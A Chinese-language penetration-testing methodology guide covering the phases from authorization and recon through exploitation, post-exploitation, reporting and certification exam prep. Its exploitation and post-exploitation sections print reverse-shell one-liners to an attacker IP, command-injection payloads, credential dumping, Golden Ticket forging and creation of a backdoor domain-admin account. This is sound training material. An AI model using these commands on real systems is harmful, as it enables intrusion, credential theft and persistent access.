

## 渗透测试方法论模板

渗透测试不是随机地跑几个工具碰运气，而是一套**可重复、可度量、可交付**的系统工程。一份成熟的方法论模板能让你在面对任何目标时都有章可循——无论是备考 OSCP、参加企业授权测试，还是做 Bug Bounty，底层逻辑完全一致。本节从行业标准框架出发，逐层拆解每个阶段的核心动作、工具链和输出物，最终给你一份可直接复用的实战模板。

---

### 一、为什么要用方法论

没有方法论的渗透测试存在三个致命问题：

1. **遗漏盲区**——想到什么做什么，容易跳过关键步骤（比如忘了检查 UDP 端口或子域名）
2. **无法复现**——换了一个人、换了一个目标，完全没有可参考的流程
3. **报告质量差**——过程混乱导致报告缺乏逻辑线索，客户看不懂、修复建议空洞

行业主流框架为这三个问题提供了标准答案：

| 框架 | 制定者 | 核心特点 | 适用场景 |
|------|--------|----------|----------|
| **PTES** (Penetration Testing Execution Standard) | PTES 技术委员会 | 7 阶段完整流程，从预交互到报告，最被业界采纳 | 专业渗透测试、合规审计 |
| **OWASP Testing Guide** | OWASP 基金会 | 聚焦 Web 应用安全，覆盖 11 大类测试技术 | Web 安全测试、应用安全评估 |
| **NIST SP 800-115** | 美国国家标准与技术研究院 | 偏管理视角，强调规划、执行、分析三阶段 | 政府/企业合规测试、审计要求 |
| **OSSTMM** | ISECOM | 量化安全评估（RAV 指标），覆盖物理+数字+人类通道 | 综合安全评估、需要量化指标的场景 |
| **MITRE ATT&CK** | MITRE 公司 | 攻击者行为知识库，TTP 矩阵式组织 | 红队操作、威胁建模、检测覆盖验证 |

> **选择建议**：日常渗透测试用 **PTES** 作为主框架，Web 应用测试叠加 **OWASP Testing Guide**，红队行动参考 **MITRE ATT&CK**。考试备考（OSCP/CEH/CISP）的底层流程也与这些框架高度重合。

---

### 二、六阶段方法论详解

下图展示了 PTES 定义的完整渗透测试生命周期：



下面逐阶段展开。

---

#### 阶段一：预交互（Pre-Engagement）

这是最容易被忽视但**法律风险最高**的阶段。没有正式授权就动手测试，等于非法入侵计算机系统。

**必须完成的事项：**

| 事项 | 说明 | 法律后果（未完成时） |
|------|------|---------------------|
| **授权书** (Statement of Work) | 明确测试范围、时间窗口、联系方式 | 可能触犯《刑法》第285/286条 |
| **免责协议** (NDA + Liability Waiver) | 保护双方利益，约定数据保密 | 漏洞利用导致数据泄露的赔偿责任 |
| **测试范围** (Scope Definition) | IP 段、域名、应用列表、排除项 | 越权测试导致服务中断的法律责任 |
| **沟通渠道** | 紧急联系人、7×24 值班电话 | 发现严重漏洞时无法及时通报 |
| **退出标准** | 什么条件下终止测试 | 无法判断何时停止 |

**测试类型选择：**

- **黑盒测试** (Black Box)：零知识，模拟外部攻击者。优点是真实反映外部威胁；缺点是效率低、覆盖面有限
- **白盒测试** (White Box)：完全知识，有源码/架构图/凭证。优点是覆盖率高、深度深；缺点是无法评估信息收集能力
- **灰盒测试** (Gray Box)：部分知识（如普通用户凭证）。兼顾效率和真实性，OSCP 考试即采用此模式

---

#### 阶段二：侦察（Reconnaissance）

侦察是渗透测试中**投入产出比最高**的阶段——前期收集的信息越多，后续攻击路径越清晰。

##### 2.1 被动侦察（Passive Reconnaissance）

不与目标系统直接交互，不留下任何痕迹。

**信息维度与工具：**

| 信息维度 | 工具/来源 | 可获取信息 |
|----------|-----------|------------|
| 域名/DNS | `whois`、`dig`、`subfinder`、`amass` | 注册信息、子域名、MX/TXT 记录 |
| IP/网络 | `BGP.he.net`、`Shodan`、`Censys` | ASN 信息、关联资产、开放端口快照 |
| 搜索引擎 | Google Dork、`theHarvester` | 邮箱、员工信息、敏感文件路径 |
| 代码仓库 | GitHub/GitLab 搜索 | 硬编码凭证、内部 API、配置文件 |
| 社交媒体 | LinkedIn、Twitter、脉脉 | 组织架构、技术栈、员工技能 |
| 证书透明度 | `crt.sh`、`CertSpotter` | 隐藏子域名、内部域名泄露 |
| 历史快照 | Wayback Machine、`gau` | 已删除页面、旧版应用、参数泄露 |

**Google Dork 常用语法：**

```bash
# 查找特定站点的文件类型
site:target.com filetype:pdf OR filetype:xlsx OR filetype:docx

# 查找登录页面
site:target.com inurl:login OR inurl:admin OR inurl:portal

# 查找目录列表
site:target.com intitle:"index of" "parent directory"

# 查找邮箱和员工信息
site:target.com "@target.com" OR "email" OR "contact"

# 查找敏感信息泄露
site:target.com intext:"password" OR intext:"api_key" OR intext:"token"
```

##### 2.2 主动侦察（Active Reconnaissance）

直接与目标系统交互，会留下日志记录。

**网络层侦察：**

```bash
# 基础端口扫描 + 服务识别（必做第一步）
nmap -sC -sV -T4 -oA initial_scan <TARGET_IP>

# 快速全端口扫描（发现非标准端口）
nmap -p- --min-rate 5000 -oA full_port_scan <TARGET_IP>

# UDP 端口扫描（SNMP/DNS/TFTP 等常被忽略）
nmap -sU --top-ports 100 -T4 -oA udp_scan <TARGET_IP>

# 操作系统和服务版本深度识别
nmap -sV --version-all -O -oA os_detect <TARGET_IP>

# NSE 脚本扫描（漏洞检测 + 弱口令）
nmap --script vuln,auth -oA nse_scan <TARGET_IP>

# 针对性扫描（根据已知信息）
nmap -p 80,443,8080,8443 --script http-enum,http-headers,ssl-enum-ciphers <TARGET_IP>
```

**Web 层侦察：**

```bash
# 目录枚举（Gobuster v3+）
gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,js,txt

# 子域名暴力枚举
gobuster dns -d target.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 50

# 高级 Fuzzing（ffuf 速度快、过滤方便）
ffuf -u http://<TARGET>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,301,302,403 -fs 4242

# 技术栈识别
whatweb http://<TARGET>
wappalyzer http://<TARGET>  # 浏览器插件版本更易用

# HTTP 头部信息收集
curl -I http://<TARGET>
nikto -h http://<TARGET>
```

**子域名发现策略（推荐组合）：**

```bash
# 1. 被动收集
subfinder -d target.com -silent > subs_passive.txt

# 2. DNS 暴力
gobuster dns -d target.com -w subdomains.txt -t 50 > subs_brute.txt

# 3. 证书透明度
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sort -u > subs_crt.txt

# 4. 合并去重
cat subs_passive.txt subs_brute.txt subs_crt.txt | sort -u > all_subs.txt

# 5. 存活验证
httpx -l all_subs.txt -silent -status-code -title > alive_subs.txt
```

> **侦察阶段输出物清单**：IP 范围、开放端口表、服务版本清单、Web 目录结构图、子域名列表、技术栈信息、员工邮箱/凭证线索。这些是后续所有阶段的基础。

---

#### 阶段三：威胁建模与漏洞分析（Threat Modeling & Vulnerability Analysis）

##### 3.1 威胁建模

将侦察阶段收集的信息映射为攻击面，确定优先级：

- **高价值目标**：域控（DC）、数据库服务器、文件共享、CI/CD 管道
- **入口点**：Web 应用、VPN、邮件网关、员工工作站
- **攻击路径假设**：Web 漏洞 → 初始访问 → 横向移动 → 域控接管

##### 3.2 漏洞发现

**Web 应用漏洞（按 OWASP Top 10 排序）：**

| 漏洞类型 | 检测工具 | 测试方法 |
|----------|----------|----------|
| 访问控制失效 (Broken Access Control) | Burp Suite | 修改请求中的 ID/角色参数，测试越权 |
| 加密机制失效 (Cryptographic Failures) | `testssl.sh`、Qualys SSL Labs | 检查 TLS 版本、弱密码套件、证书问题 |
| 注入 (Injection) | SQLMap、Burp Intruder | 参数注入测试（SQL/NoSQL/OS/LDAP） |
| 不安全设计 (Insecure Design) | 手动测试 | 业务逻辑漏洞（价格篡改、跳过验证步骤） |
| 安全配置错误 | Nmap NSE、Nikto | 默认凭证、目录列表、调试模式、多余端口 |
| 过时/有漏洞组件 | `npm audit`、`pip-audit`、OWASP Dependency-Check | 依赖版本扫描，对照 CVE 数据库 |
| 身份认证失效 | Hydra、Burp | 弱口令暴力、Session 管理、MFA 绕过 |
| 软件和数据完整性失效 | 手动审计 | 不安全的反序列化、CI/CD 管道完整性 |
| 日志和监控不足 | 手动测试 | 触发事件后检查是否有告警/日志记录 |
| 服务端请求伪造 (SSRF) | Burp Collaborator | 构造内部 URL 请求，探测内网服务 |

**网络服务漏洞：**

```bash
# 检查已知 CVE
searchsploit apache 2.4.49    # 查找 Apache Path Traversal
searchsploit smb windows       # 查找 SMB 相关漏洞

# Nuclei 模板扫描（覆盖数千种漏洞检测）
nuclei -u http://<TARGET> -t cves/ -severity critical,high

# 自动化漏洞扫描
nikto -h http://<TARGET> -output nikto_report.html

# SSL/TLS 检测
testssl.sh --all <TARGET>
```

**配置错误检查要点：**

- SMBv1 是否开启（EternalBlue 风险）
- 匿名 FTP/SNMP 访问
- Redis 未授权访问（默认端口 6379）
- Elasticsearch 未授权访问（端口 9200）
- Docker API 未加密暴露（端口 2375）
- Spring Boot Actuator 信息泄露（/actuator/env, /heapdump）

---

#### 阶段四：渗透利用（Exploitation）

**核心原则**：只利用已确认的漏洞，不搞"地毯式轰炸"。每次利用前评估风险——目标是证明漏洞可利用，不是搞垮服务。

```bash
# Metasploit 标准利用流程
msfconsole
> use exploit/multi/handler
> set PAYLOAD linux/x64/meterpreter/reverse_tcp
> set LHOST <YOUR_IP>
> set LPORT 4444
> exploit -j    # 后台运行

# 针对特定漏洞利用
msfconsole
> search eternalblue
> use exploit/windows/smb/ms17_010_eternalblue
> set RHOSTS <TARGET>
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> exploit

# 手动利用（当 Metasploit 没有对应模块时）
# Python 反弹 Shell
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<YOUR_IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

**Web 漏洞利用实战示例：**

```bash
# SQL 注入 — SQLMap 自动化
sqlmap -u "http://<TARGET>/page?id=1" --dbs --batch              # 枚举数据库
sqlmap -u "http://<TARGET>/page?id=1" -D mydb --tables           # 枚举表
sqlmap -u "http://<TARGET>/page?id=1" -D mydb -T users --dump    # 导出数据
sqlmap -u "http://<TARGET>/page?id=1" --os-shell                 # 获取系统 Shell（需有写权限）

# 命令注入 — 手动验证
curl "http://<TARGET>/ping?ip=127.0.0.1;id"  # 检查返回的 uid 信息
curl "http://<TARGET>/ping?ip=127.0.0.1;bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'"

# 文件上传绕过
# 常见绕过方式：修改 Content-Type、双扩展名、空字节、图片马
# 配合 Burp Suite 的 Repeater 模块逐个尝试
```

**初始访问失败时的回退策略：**

| 失败场景 | 回退方案 |
|----------|----------|
| 已知漏洞利用失败 | 检查目标版本是否精确匹配；尝试其他 CVE |
| Web Shell 上传被拦截 | 更换上传方式（内存马、Steganography） |
| 反弹 Shell 被 WAF/EDR 拦截 | 尝试 HTTP/HTTPS 隧道、DNS 隧道、ICMP 隧道 |
| 无直接可达的反弹端口 | 使用交互式 Shell → 升级为完全 TTY → 再反弹 |

---

#### 阶段五：后渗透（Post-Exploitation）

初始访问只是开始。后渗透阶段的目标是**证明业务影响**——能读到哪些数据、能影响多大范围、能否接管整个域。

##### 5.1 权限提升

**Linux 提权检查清单：**

```bash
# LinPEAS 自动化（推荐首选）
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# 手动检查项
find / -perm -4000 2>/dev/null              # SUID 文件
find / -writable -type f 2>/dev/null | head -20  # 可写文件
cat /etc/crontab                            # 系统计划任务
ls -la /etc/cron.*                          # 计划任务目录
cat /etc/sudoers                            # Sudo 配置
sudo -l                                     # 当前用户 Sudo 权限
cat /etc/passwd                             # 可登录用户
ss -tlnp                                    # 本地监听服务（提权跳板）
```

**常见 Linux 提权路径：**

| 路径 | 检查方法 | 利用方式 |
|------|----------|----------|
| SUID 二进制文件 | `find / -perm -4000` | GTFOBins 查找提权命令 |
| 内核漏洞 | `uname -r` + `searchsploit` | 编译/运行内核 Exploit |
| Sudo 配置 | `sudo -l` | NOPASSWD 的命令 → GTFOBins |
| 计划任务 | `/etc/crontab` + 可写脚本 | 修改 cron 脚本添加反弹 Shell |
| 能力 (Capabilities) | `getcap -r / 2>/dev/null` | 特定 capability + 文件权限组合 |
| Docker 组 | `id \| grep docker` | 挂载宿主文件系统访问 root |
| 环境变量劫持 | `env`、PATH 相关 | LD_PRELOAD、PATH 劫持 |

**Windows 提权检查清单：**

```bash
# WinPEAS 自动化
winpeas.exe quiet fast

# 手动检查
whoami /priv                                    # 当前特权
systeminfo                                      # 系统信息（补丁级别）
wmic product get name,version                   # 已安装软件
reg query "HKLM\SYSTEM\CurrentControlSet\Services"  # 服务配置
accesschk.exe /accepteula -uwcqv "Authenticated Users" *  # 权限检查

# 常见 Windows 提权工具
# Potato 系列（MS16-075/NTLM 中继）
# PrintSpoofer → PrintSpoofer.exe -c "cmd /c whoami"
# GodPotato → GodPotato.exe -cmd "cmd /c whoami"
# SweetPotato → SweetPotato.exe -a "whoami"
```

##### 5.2 横向移动

```bash
# Pass-the-Hash（NTLM 哈希直接认证）
crackmapexec smb <TARGET> -u <user> -H <NTLM_HASH>
impacket-psexec <domain>/<user>:<hash>@<TARGET>
impacket-wmiexec <domain>/<user>:<hash>@<TARGET>
impacket-smbexec <domain>/<user>:<hash>@<TARGET>

# Pass-the-Ticket（Kerberos 票据）
export KRB5CCNAME=/tmp/user.ccache
impacket-psexec -k -no-pass <domain>/<user>@<TARGET>

# Kerberos 攻击
# Kerberoasting（请求服务票据离线破解）
impacket-GetUserSPNs <domain>/<user>:<password> -dc-ip <DC_IP> -request
hashcat -m 13100 hash.txt wordlist.txt    # 破解 TGS 哈希

# AS-REP Roasting（无预认证用户）
impacket-GetNPUsers <domain>/ -usersfile users.txt -dc-ip <DC_IP> -format hashcat -outputfile asrep.txt
hashcat -m 18200 asrep.txt wordlist.txt

# NTLM Relay（中继攻击）
ntlmrelayx.py -tf targets.txt -smb2support
```

##### 5.3 持久化与数据获取

```bash
# 域控持久化
# 万能钥匙 Golden Ticket
impacket-ticketer -nthash <KRBTGT_HASH> -domain-sid <SID> -domain <DOMAIN> <TARGET_USER>
export KRB5CCNAME=/tmp/<TARGET_USER>.ccache

# 后门账户
net user backdoor your_password /add /domain
net group "Domain Admins" backdoor /add /domain

# 数据收集
find / -name "*.pdf" -o -name "*.xlsx" -o -name "*.docx" 2>/dev/null
find / -name "password*" -o -name "*.kdbx" -o -name ".env" 2>/dev/null
# 在 Windows 上
dir /s /b C:\Users\*password* 2>nul
dir /s /b C:\Users\*.kdbx 2>nul
```

##### 5.4 Active Directory 攻击全流程

这是企业环境中最复杂的攻击场景。推荐使用 BloodHound 攻击路径可视化：

```bash
# BloodHound 数据收集
bloodhound-python -u <user> -p <pass> -d domain.com -dc <DC_IP> -c All --zip

# 基础枚举
crackmapexec smb <IP> -u '' -p '' --shares            # 匿名 SMB 枚举
enum4linux -a <IP>                                    # 综合枚举
ldapsearch -x -h <IP> -b "DC=domain,DC=com" "(objectClass=*)"> ldap_dump.txt  # LDAP 枚举

# 集合化操作（CrackMapExec / NetExec）
crackmapexec smb <IP> -u <user> -p <pass> --shares           # 枚举共享
crackmapexec smb <IP> -u <user> -p <pass> --lsa              # 提取 LSA 密码
crackmapexec smb <IP> -u <user> -p <pass> --sam              # 提取 SAM 数据库
crackmapexec ldap <DC_IP> -u <user> -p <pass> --users         # 枚举所有用户
crackmapexec ldap <DC_IP> -u <user> -p <pass> --groups        # 枚举所有组
```

---

#### 阶段六：报告（Reporting）

报告是渗透测试的**最终交付物**，也是客户为你的服务付费的核心原因。一份好报告能让技术决策者理解风险、让运维团队知道怎么修。

**报告结构模板：**

| 章节 | 内容 | 目标读者 |
|------|------|----------|
| **执行摘要** (Executive Summary) | 测试范围、时间、总体风险评级、关键发现摘要（不超过 1 页） | CISO、管理层 |
| **测试方法** | 测试类型、工具清单、时间线、授权依据 | 安全团队、审计 |
| **漏洞发现** | 漏洞名称、CVSS 评分、影响范围、复现步骤、截图证据 | 开发/运维 |
| **风险评级** | 按 CVSS 或内部标准分级（严重/高/中/低/信息） | 全体 |
| **修复建议** | 每个漏洞的具体修复方案、优先级、预估工时 | 开发/运维 |
| **附录** | 工具清单、原始数据、Nmap 输出、完整日志 | 技术细节参考 |

**CVSS 评分速查（v3.1）：**

```text
严重 (Critical): 9.0-10.0  → 立即修复，24小时内
高 (High):       7.0-8.9   → 优先修复，72小时内
中 (Medium):     4.0-6.9   → 计划修复，1-2周内
低 (Low):        0.1-3.9   → 下个版本修复
信息 (Info):     0.0       → 记录，视情况处理
```

---

### 三、工具生态总览

将工具按阶段组织，避免"拿到工具不知道什么时候用"：

| 阶段 | 类别 | 工具 | 用途 |
|------|------|------|------|
| 侦察 | 被动 | subfinder, amass, theHarvester | 子域名和信息收集 |
| 侦察 | 被动 | Shodan, Censys, FOFA | 互联网资产发现 |
| 侦察 | 主动 | Nmap, Masscan | 端口扫描和服务识别 |
| 侦察 | Web | Gobuster, ffuf, Feroxbuster | 目录和文件枚举 |
| 漏洞分析 | 自动化 | Nuclei, Nikto, Nessus | 漏洞扫描和验证 |
| 漏洞分析 | 手动 | Burp Suite, OWASP ZAP | 代理拦截和手动测试 |
| 漏洞利用 | 框架 | Metasploit, Cobalt Strike | 标准化漏洞利用 |
| 漏洞利用 | 专用 | SQLMap, searchsploit | SQL 注入、漏洞库查询 |
| 后渗透 | 提权 | LinPEAS/WinPEAS, GTFOBins | 权限提升路径发现 |
| 后渗透 | AD | BloodHound, Impacket, CrackMapExec | Active Directory 攻击链 |
| 后渗透 | 保持 | Chisel, Ligolo-ng | 隧道和代理 |
| 报告 | 文档 | Dradis, PlexTrac, CherryTree | 报告生成和笔记管理 |

---

### 四、考试实战策略

#### 4.1 OSCP 24 小时考试时间管理

OSCP 考试（OffSec PEN-200）总分 100 分，需要 70 分及格。考试包含 3 台独立靶机（20+20+10=50 分）+ 1 个 AD 域（40 分）+ 10 分报告。

```text
推荐时间分配（总计 24 小时）：
┌──────────────────────────────────────────────────┐
│ 第 0-1 小时    环境搭建 + 全面信息收集              │
│ 第 1-8 小时    独立靶机 A（20分）                   │
│   ├── 信息收集：30-60 分钟                         │
│   ├── 漏洞发现：1-2 小时                           │
│   ├── 利用+提权：2-3 小时                          │
│   └── 若 3 小时无进展→跳过，先做其他                 │
│ 第 8-14 小时   独立靶机 B（20分）                   │
│   └── 同上策略                                     │
│ 第 14-16 小时  独立靶机 C（10分）                   │
│   └── 小分值，不要超时                              │
│ 第 16-22 小时  AD 域（40分）← 最高分值              │
│   ├── 枚举：1 小时                                 │
│   ├── 初始访问：2-3 小时                           │
│   ├── 横向移动：2-3 小时                           │
│   └── 域控接管：1-2 小时                           │
│ 第 22-24 小时  报告撰写（10分）← 必须提交           │
└──────────────────────────────────────────────────┘
```

**OSCP 考试关键提醒：**

- 必须拿到 **每台机器的 proof.txt + whoami** 截图
- 不能使用自动化漏洞利用框架（如 Metasploit 的自动 exploitation），但可用 Metasploit **一次**
- 报告必须包含每台机器的完整攻击路径 + 截图
- **先拿能拿的分**，不要死磕一台机器超过 3 小时

#### 4.2 CISP 备考专项技巧

CISP（注册信息安全专业人员）与 OSCP 的技术深度不同，更侧重**安全管理、合规和等保**。

**CISP 考试特点：**

- 100 道选择题，75 分及格（满分 100）
- 题目覆盖广但深度适中
- 强调国内安全法规、等保 2.0、ISO 27001

**核心知识领域与备考重点：**

| 领域 | 权重 | 备考要点 |
|------|------|----------|
| 信息安全概述 | 10% | CIA 三要素、安全模型（Bell-LaPadula、Biba）、安全策略 |
| 密码学 | 15% | 对称/非对称加密、数字签名、PKI 体系、国密算法（SM2/SM3/SM4） |
| 网络安全 | 15% | 防火墙、IDS/IPS、VPN、网络隔离、零信任架构 |
| 主机安全 | 10% | Windows/Linux 安全加固、补丁管理、恶意代码防护 |
| 应用安全 | 15% | 开发安全（SDL）、Web 安全、安全测试、代码审计 |
| 安全管理 | 15% | ISO 27001、安全组织、安全制度、风险评估方法论 |
| 等级保护 | 15% | 等保 2.0 五个等级、十大安全域、扩展要求（云/IoT/移动/工控） |
| 安全运营 | 5% | SOC、SIEM、应急响应、安全审计 |

**等保 2.0 五个等级：**

| 等级 | 名称 | 适用对象 | 侵害对象 |
|------|------|----------|----------|
| 第一级 | 用户自主保护级 | 一般系统 | 公民/法人权益 |
| 第二级 | 系统审计保护级 | 一般系统 | 公民/法人权益、社会秩序 |
| 第三级 | 安全标记保护级 | 重要系统 | 公民权益、社会秩序、国家安全 |
| 第四级 | 结构化保护级 | 关键基础设施 | 社会秩序、国家安全 |
| 第五级 | 访问验证保护级 | 极端重要系统 | 国家安全 |

**等保 2.0 扩展要求（重点关注）：**

- **云计算安全**：云平台安全、虚拟化安全、多租户隔离、云服务安全评估
- **移动互联安全**：移动终端管理（MDM）、移动应用安全、无线网络安全
- **物联网安全**：感知层安全、网络层安全、应用层安全、设备身份认证
- **工业控制系统安全**：工控协议安全、SCADA 安全、工控网络隔离

#### 4.3 CEH 备考要点

CEH（Certified Ethical Hacker）考试 125 道选择题，4 小时完成，60%-85% 及格。

**与 OSCP 的关键区别：**

| 维度 | OSCP | CEH |
|------|------|-----|
| 考试形式 | 实操（24h 攻击 + 报告） | 选择题（4h） |
| 侧重 | 动手能力、真实环境 | 概念理解、工具知识 |
| 题型 | 没有题目，只有靶机 | 125 道多选/单选题 |
| 备考重点 | 练习 HTB/TryHackMe 靶机 | 背诵 + 理解 20 个领域 |

**CEH 高频考点：** 社会工程学、网络嗅探、DoS/DDoS、会话劫持、Web 服务器攻击、SQL 注入、无线网络攻击、移动平台攻击、云安全、密码学、逆向工程基础。

---

### 五、常见误区与避坑

| 误区 | 正确做法 | 为什么重要 |
|------|----------|------------|
| 一上来就跑 Metasploit | 先手动侦察和分析，再决定攻击路径 | 盲目扫描浪费时间且容易触发告警 |
| 只依赖自动化工具 | 工具辅助 + 手动验证结合 | 自动化工具的误报率高达 30-50% |
| 忽略 UDP 端口 | UDP Top 100 必扫（SNMP/DNS/TFTP） | 约 15% 的初始访问通过 UDP 服务获得 |
| 忘记检查子域名 | 子域名发现是侦察必做步骤 | 主域名安全不代表子域名安全 |
| 跳过文档记录 | 每一步都截图 + 记笔记 | 报告阶段无法回溯细节，丢失关键证据 |
| 不做权限提升直接横向移动 | 先确保当前权限最大化 | 低权限账户的横向移动成功率远低于高权限 |
| 越权测试 | 严格遵守授权范围 | 法律风险、职业道德风险 |
| 死磕一台机器超过 3 小时 | 超时跳过，先拿能拿的分 | 考试和真实项目都有时间限制 |

---

### 六、进阶：红队行动与 Bug Bounty

当你掌握了标准渗透测试方法论后，可以向两个方向进阶：

**红队行动**（Red Teaming）与传统渗透测试的区别：

| 维度 | 传统渗透测试 | 红队行动 |
|------|-------------|----------|
| 目标 | 发现并报告尽可能多的漏洞 | 模拟真实攻击者，达成特定目标（如获取域控） |
| 范围 | 明确指定的系统 | 全面（含物理、社工、网络） |
| 知情范围 | 蓝队部分知情 | 蓝队完全不知情（除了高层） |
| 时长 | 1-4 周 | 数周到数月 |
| 关注点 | 漏洞数量和修复建议 | 攻击路径、检测能力、响应时效 |
| 工具 | 标准开源工具 | 商业工具 + 自定义 Payload + C2 框架 |

**Bug Bounty 策略：**

- 优先测试新上线的应用（安全措施通常不完善）
- 关注被忽视的子域名和 API 端点
- 逻辑漏洞（竞态条件、权限绕过）的赏金通常最高
- 保持与平台的良好关系，遵守负责任披露流程
- 常用平台：HackerOne、Bugcrowd、补天、漏洞盒子

---

### 七、方法论模板速查卡

最后，将整个六阶段方法论浓缩为一张可打印的速查卡：

```text
┌─ 渗透测试方法论速查卡 ──────────────────────────────────────────┐
│                                                                  │
│  1. 预交互     授权书 | 范围 | 退出标准 | 紧急联系               │
│  2. 侦察       被动(OSINT/DNS/Shodan) → 主动(Nmap/ffuf/Gobuster)│
│  3. 漏洞分析   威胁建模 → 自动扫描(Nuclei) + 手动测试(Burp)     │
│  4. 渗透利用   选择 Exploit → 获取初始 Shell → 截图取证           │
│  5. 后渗透     提权(PEAS) → 横移(PTH/PTT) → 持久化 → 数据获取   │
│  6. 报告       执行摘要 | 漏洞详情 | CVSS 评分 | 修复建议         │
│                                                                  │
│  关键原则：                                                      │
│  • 每步都记录，截图不嫌多                                         │
│  • 先拿分再拿全，死磕不超 3 小时                                  │
│  • 工具辅助 + 手动验证 = 最佳实践                                 │
│  • 永远在授权范围内操作                                           │
│                                                                  │
└──────────────────────────────────────────────────────────────────┘
```
